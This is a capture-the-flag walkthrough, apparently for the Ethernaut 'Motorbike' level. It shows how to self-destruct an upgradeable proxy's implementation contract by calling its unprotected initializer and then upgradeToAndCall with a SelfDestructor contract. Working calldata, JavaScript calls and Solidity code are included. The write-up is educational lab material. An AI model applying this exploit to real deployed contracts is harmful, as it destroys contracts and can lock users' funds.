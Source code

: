 # Answer

Goal: Selfdestruct the Engine contract instance.

Note: Since Cancun hardfork this contract is debatably unsolvable. Becuase of EIP-6780 the `selfdestruct` no longer clears the code at address and only transfers ETH out. Some argue that this can still be workedaround if you interrupt the challenge setup deployment, but in our opinion that is cheating.

What we suggest is using your own local chain like anvil and setting it's hardfork version to shanghai or earlier. This can be done by passing a param `--hardfork`:

```
anvil --block-time 1 --auto-impersonate --hardfork shanghai
```

And later can be verified by using an RPC method `anvil_nodeInfo`

```javascript
{
	"jsonrpc": "2.0",
	"id": 67,
	"result": {
		"currentBlockNumber": "0x4e",
		"currentBlockTimestamp": 1727018600,
		"currentBlockHash": "0xfaca96c96d21e65c86bb5ffc0b1fcad54e3d28f2265e5d473b878d95a3de647f",
		"hardFork": "Shanghai", // <-- Anything earlier than cancun is good
		"transactionOrder": "fees",
		"environment": {
			"baseFee": "0x7512",
			"chainId": 31337,
			"gasLimit": "0x1c9c380",
			"gasPrice": "0x3b9b3f12"
		},
		"forkConfig": {
			"forkUrl": null,
			"forkBlockNumber": null,
			"forkRetryBackoff": null
		}
	}
}
```

So this solution will ONLY work if you have a chain that supports `selfdestruct` with code removal.

## 1. Find Engine address

We know that Engine is going to be stored at `_IMPLEMENTATION_SLOT` so let's see what address is there. The getStorageAt:

```javascript
const contractAddress = '<Motorbike addr>'
const position =
  '0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc'
await web3.eth.getStorageAt(contractAddress, position)
```

## 2. Become Engine upgrader

Though the Motorbike is sufficiently protected, the Engine contract instance - not so much. First we can gain more access by setting `upgrader` to our wallet address.

```javascript
await sendTransaction({
  to: '<Engine addr>',
  from: player,
  data: '0x8129fc1c', // <-- encoded "initialize"
})
```

Since the Engine was only initialized through a `delegateCall` we could still call it directly.

## 3. Destroy the contract instance code

Now that we are the `upgrader` we can call `upgradeToAndCall` with a `SelfDestructor` contract address that contains `selfdestruct` function and pass it as `data` to be called after upgrading:

```javascript
await sendTransaction({
  to: '<Engine addr>',
  from: player,
  data: '4f1ef286000000000000000000000000<SelfDestructor addr>000000000000000000000000000000000000000000000000000000000000004000000000000000000000000000000000000000000000000000000000000000040948ef3c00000000000000000000000000000000000000000000000000000000', // encoded "upgradeToAndCall" function with params: [<Malicious addr>, encoded "byeBye" function]
})
```

The `SelfDestructor` contract looks like this:

```solidity
pragma solidity <0.7.0;

contract SelfDestructor {
    function byeBye() external {
        selfdestruct(msg.sender);
    }
}
```
